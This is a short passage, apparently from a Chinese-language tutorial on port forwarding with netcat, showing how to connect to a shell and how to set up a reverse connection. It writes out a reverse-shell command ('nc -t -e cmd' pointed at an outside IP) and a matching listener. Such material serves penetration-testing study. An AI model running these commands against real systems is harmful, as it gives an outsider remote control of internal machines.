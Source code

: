 -t是通过 telne 模式执行 cmd.exe 程序，可以省略。  
在公网执行  

`nc -nvv 192.168.153.138 5555`  
![](../pictures/port-forwarding-9.png)    

### 反向连接

在公网监听nc -lp 5555  

![](../pictures/port-forwarding-10.png)      

在内网机器反弹nc -t -e cmd 192.168.153.140 5555  
![](../pictures/port-forwarding-11.png)     
